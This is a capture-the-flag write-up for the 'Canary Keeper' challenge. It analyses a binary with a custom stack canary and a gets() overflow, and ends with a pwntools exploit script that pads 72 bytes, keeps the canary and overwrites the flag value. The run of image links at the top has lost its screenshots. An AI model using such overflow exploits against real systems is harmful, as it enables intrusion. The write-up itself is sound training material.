









# Canary Keeper - 100 points
## Description
My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

---
We are given a executable named `provided`.

The name of the challenge is hinting for the canary, a common defense in executables,
so let's check the executable defenses:

```shell
pwn checksec provided
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It doesn't seem to be built with a canary onto the stack, maybe they implemented
a custom one.

Opening up gdb and looking for functions:


Disassemnblying main:


Interesting values that are put onto the stack.
Breakpointing at *main+96 and looking at the stack, we get this:


So we have a hint of what the program is doing. It loads the word canary into
the stack, and then places the word FLAG.
Our input is being read with a `gets` function which is overflow vulnerable, so
we need to discover the offset which we need to add to hit our "canary", manipulate
it, and then find how to get our flag.
So let's look into the check_canary function.



And then, the check flag,



Both functions return 1 if the values compared are equal, because of the `sete`
instruction, as seen here.



`sete` sets its argument to `1` if the ZF(zero flag)
is set, and `0` otherwise. And `test eax,eax` sets the ZF if the operands are 
equal.

Now looking at the main function again, and trying to draw the exec flow,




*Take a deep breath.*

In summary: 
- checks for the canary, if `canary == canary`, proceeds to `check_flag`,
if not, exit.
- checks for the flag, if `flag != flag`, proceeds to print the flag,
if not, exit.

So we need to, overflow, keep the canary, change the flag, profit.
Finding the offset.



So 72 * `A`s, and the 73th overflows, so the 73th is the `0x00`, string ending 
character.

exploit code:
```python
#!/usr/bin/env python
from pwn import *
import sys

p = ELF("./provided")

io = p.process()

if "remote" in sys.argv:
    io = remote('challs.bcactf.com', 32101)

payload = b"A"*72
payload += b"\x00"
payload += b"canary"
payload += b"\x00"
payload += b"h4ck3d"
payload += b"\x00"

io.recvuntil(b'Enter a string:')
io.sendline(payload)
print(io.recvline())
```


